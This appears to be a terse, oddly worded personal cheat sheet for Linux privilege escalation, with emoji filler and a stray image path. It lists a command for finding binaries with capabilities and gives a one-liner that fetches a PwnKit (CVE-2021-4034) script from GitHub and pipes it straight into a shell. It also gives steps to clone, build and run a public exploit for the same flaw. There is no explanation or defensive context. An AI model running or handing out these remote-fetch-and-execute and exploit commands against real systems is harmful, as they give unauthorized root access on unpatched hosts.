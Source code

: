 # burn sechar
find 😈😈😈😈 -> getcap -r /usr/bin

# cve-2021-4034
burn 2.0 -> sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
😈😈😈😈
# vunl
code : git clone "https://github.com/berdav/CVE-2021-4034"
😈😈😈😈😈 burn -> make, ./cve-2021-4034
